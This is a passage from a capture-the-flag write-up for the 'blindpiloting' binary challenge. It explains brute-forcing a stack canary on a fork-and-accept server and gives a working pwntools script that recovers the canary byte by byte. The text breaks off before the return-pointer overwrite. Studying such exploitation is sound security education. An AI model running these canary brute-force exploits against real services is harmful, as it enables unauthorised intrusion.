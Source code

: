 ```
# ./blindpiloting
> AAAAAAAAA
*** stack smashing detected ***: <unknown> terminated
```


### Exploit Part 1

#### Attack Plan

1. Brute-force the stack canary.
2. Smash stack and change return pointer to call `win` to obtain `flag1.txt`


#### Bruce-force the stack canary

> This is a great article on the principals of bruce-forcing stack canaries: [https://ctf101.org/binary-exploitation/stack-canaries/](https://ctf101.org/binary-exploitation/stack-canaries/):
> 
> _This method can be used on fork-and-accept servers where connections are spun off to child processes, but only under certain conditions such as when the input accepted by the program does not append a NULL byte (read or recv)._

The above text from the aforementioned URL correctly describes this challenge.  The _fork-and-accept_ is required so that the canary does not change, this is due to the fork cloning the parent memory, including the stack canary.

Code:

```
#!/usr/bin/env -S python3 -i

from pwn import *
import binascii
import sys

p = process('./blindpiloting')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#p = remote('pwn.ctf.b01lers.com',1007)
#libc = ELF('libc.so.6')

p.recvuntil('> ')
buf = 8 * b'A'
canary = p8(0)
x = [i for i in range(256) if i != 10 ]

for i in range(7):
    for j in x:
        payload = buf + canary + p8(j)
        p.sendline(payload)
        r = p.recvuntil('terminated',timeout=1)
        if not r:
            canary += p8(j)
            print(binascii.hexlify(canary))
            break
        p.clean()
    if r:
        print("FAILED, you prob got a LF (0xa) in canary")
        sys.exit(1)

print("HAVE CANARY")
```
